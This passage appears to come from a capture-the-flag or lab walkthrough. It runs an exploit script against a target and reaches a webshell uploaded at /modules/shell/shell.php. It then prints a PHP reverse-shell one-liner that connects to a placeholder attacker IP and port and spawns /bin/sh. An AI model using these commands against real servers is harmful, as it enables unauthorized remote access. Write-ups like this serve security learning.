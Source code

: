 ```sh
 python exploit.py http://<ip>
```

![Image 5](5.png)
![Image 6](6.png)

Cool, now we can go to the route where the webshell **/modules/shell/shell.php** is uploaded and execute a reverse shell to obtain access to the server

```sh
php -r '$sock=fsockopen("<IP>",<PORT>);exec("/bin/sh -i <&3 >&3 2>&3");'
```

![Image 7](7.png)
